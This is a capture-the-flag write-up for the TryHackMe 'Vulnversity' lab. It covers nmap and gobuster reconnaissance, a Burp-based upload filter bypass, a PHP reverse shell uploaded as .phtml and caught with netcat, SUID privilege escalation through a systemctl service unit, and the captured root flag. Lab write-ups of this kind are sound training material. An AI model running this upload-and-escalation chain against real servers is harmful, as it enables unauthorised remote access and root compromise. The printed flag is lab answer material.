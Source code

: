 # Vulnversity

Attack Machine = 10.10.69.90

## Reconnaissance

- It's important to run initial NMAP scans to gather information about a given IP. Look for open ports, operating systems, and version information.

```console
root@ip-10-10-140-213:~# nmap -sC -sV -oX init.xml 10.10.69.90

Starting Nmap 7.60 ( https://nmap.org ) at 2022-10-13 13:22 BST
Nmap scan report for ip-10-10-69-90.eu-west-1.compute.internal (10.10.69.90)
Host is up (0.0013s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (EdDSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
MAC Address: 02:6C:CC:45:E5:DF (Unknown)
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2022-10-13T08:22:45-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-10-13 13:22:45
|_  start_date: 1600-12-31 23:58:45

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.43 seconds
```

It's important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

- Use GoBuster to locate directories that can be used to upload a shell.

    `gobuster dir -u http://10.10.69.90:3333 -w /usr/share/wordlists/dirb/common.txt`

```console
root@ip-10-10-140-213:~# gobuster dir -u http://10.10.69.90:3333 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.69.90:3333
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/10/13 13:30:51 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/internal (Status: 301)
/js (Status: 301)
/server-status (Status: 403)
===============================================================
2022/10/13 13:30:52 Finished
===============================================================
```

We noticed the directory /internal allows us to upload files, which can be used.

- Now you have found a form to upload files, we can leverage this to upload and execute our payload that will lead to compromising the web server. To determine what extensions are not blocked by the webserver we can use BurpSuite.

1. Create a wordlist of file extensions `nano phpext.txt`
2. Ensure BurpSuite is configured to intercept all your browser traffic. Upload a file, once this request is captured, send it to the Intruder. Click on "Payloads" and select the "Sniper" attack type. Click the "Positions" tab now, find the filename and "Add §" to the extension. After running the attack we determine _.phtml_ is the right extension.
3. Use a PHP reverse shell as our payload. A reverse shell works by being called on the remote host and forcing this host to make a connection to you. So you'll listen for incoming connections, upload and have your shell executed which will beacon out to you to control!

Download the following reverse PHP shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

To gain remote access to this machine, follow these steps:

1. Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to <http://10.10.10.10> in the browser of your TryHackMe connected device).
2. Rename this file to php-reverse-shell.phtml
3. We're now going to listen to incoming connections using netcat. Run the following command: **nc -lvnp 1234**
4. Upload your shell and navigate to **http://<ip>:3333/internal/uploads/php-reverse-shell.phtml** - This will execute your payload
5. You should see a connection on your netcat session.

- Once inside the machine, run the following to get the flag and see what users are available.

    `cd home;ls;cd bill;ls;cat user.txt`

- Use the following command to find files with the SUID bit attached. For potential privilege escalation.

    `find / -user root -perm -4000 -exec ls -ldb {} \;`

Using GTFOBins and the output from the search we can use _systemctl_ to gain privileges.

```console
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
...
sh -p
```

- Once access is gained, search for the flag.

    `cat /root/root.txt`

**a58ff8579f0a9270368d33a9966c7fd5**
